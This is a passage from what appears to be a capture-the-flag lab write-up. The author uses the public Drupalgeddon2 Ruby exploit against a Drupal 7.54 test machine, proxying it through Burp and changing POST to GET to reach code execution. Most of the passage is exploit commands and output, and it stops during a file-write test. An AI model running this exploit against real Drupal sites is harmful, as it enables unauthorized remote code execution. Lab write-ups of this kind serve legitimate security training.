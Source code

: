     Traceback (most recent call last):                     
            2: from 44449.rb:207:in `<main>'
            1: from /usr/lib/ruby/vendor_ruby/json/common.rb:156:in `parse'
    /usr/lib/ruby/vendor_ruby/json/common.rb:156:in `parse': 765: unexpected token at '<!DOCTYPE.md PUBLIC "-//W3C//DTD XHTML+RDFa 1.0//EN" (JSON::ParserError)
    ...[snip]...



Interesting. It think's `CHANGELOG.txt` is missing? But I looked at it
earlier.

At the top of the script, there's a place I can set a proxy. I'll set it
to localhost:



    # Settings - Proxy information (nil to disable)
    proxy_addr = '127.0.0.1'
    proxy_port = 8080



I'll clear my burp history, and then run the exploit:

![](/img/1551965316788.png)

The attempt to check `CHANGELOG.txt` is a POST, and it returns an error
that the HTTP verb is bad:



    HTTP/1.1 405 Method Not Allowed
    Allow: GET, HEAD, OPTIONS, TRACE
    Content-Type: text.md
    Server: Microsoft-IIS/7.5
    X-Powered-By: ASP.NET
    Date: Thu, 07 Mar 2019 13:19:20 GMT
    Connection: close
    Content-Length: 1293



I'll turn intercept on, and run the exploit again. This time, I'll
change POST to GET, and then let things go. I get a shell:



    root@kali# ruby 44449.rb http://10.10.10.9/
    [*] --==[::#Drupalggedon2::]==--
    --------------------------------------------------------------------------------
    [*] Target : http://10.10.10.9/
    --------------------------------------------------------------------------------
    [+] Found  : http://10.10.10.9/CHANGELOG.txt (200)
    [+] Drupal!: 7.54
    --------------------------------------------------------------------------------
    [*] Testing: Code Execution
    [*] Payload: echo WVJGKBOE
    [+] Result : WVJGKBOE
    [{"command":"settings","settings":{"basePath":"\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"368chTEHIkCulf-OByrxM4BA-4dnOTil83SURlLwdqI"}},"merge":true},{"command":"insert","method":"replaceWith","selector":null,"data":"","settings":{"basePath":"\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"368chTEHIkCulf-OByrxM4BA-4dnOTil83SURlLwdqI"}}}]
    [+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
    --------------------------------------------------------------------------------
    [*] Testing: File Write To Web Root (./)